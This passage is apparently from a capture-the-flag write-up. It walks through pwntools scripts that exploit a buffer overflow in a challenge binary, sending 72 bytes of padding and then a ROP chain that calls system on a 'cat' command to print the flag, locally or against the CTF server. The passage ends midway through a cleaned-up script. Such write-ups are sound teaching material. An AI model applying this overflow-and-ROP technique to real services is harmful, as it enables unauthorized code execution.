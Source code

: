 ```py
io.interactive()
io.close()
```

Running this exploit prints "Do you want the flag?" and asks for the vulnerable input!
Alright now we can get to the interesting part, building our payload and exploiting the buffer overflow.

```py
#!/usr/bin/env python3

from pwn import *

context.binary = elf = ELF('./src/pwn02')
context.arch = 'amd64'
context.endian = 'little'
context.log_level = 'error'

if args.REMOTE:
    io = remote("pwn02.ctf.teamquark.com", 65302)
else:
    io = elf.process()

io.recvuntil(b"?\n")
io.sendline(b'elliot') # Send first answer

io.recvuntil(b"?\n")
io.sendline(b'Darlene Alderson') # Send second answer

io.recvuntil(b"?\n") # Jump to the vulnerable input

offset = 72
cat_cmd = 0x402069
pop_rdi = 0x40146b
system_call = 0x4011cf

payload = b''.join([
    b'A'*offset,
    pack(pop_rdi),
    pack(cat_cmd),
    pack(system_call)
])

io.sendline(payload) # Run the payload
io.interactive()
io.close()
```

Running this script on the remote prints us the flag !
Now let's clean it up a bit.

```py
#!/usr/bin/env python3

from pwn import *

context.binary = elf = ELF('./src/pwn02')
context.arch = 'amd64'
context.endian = 'little'
context.log_level = 'error'

if args.REMOTE:
    io = remote("pwn02.ctf.teamquark.com", 65302)
else:
    io = elf.process()
```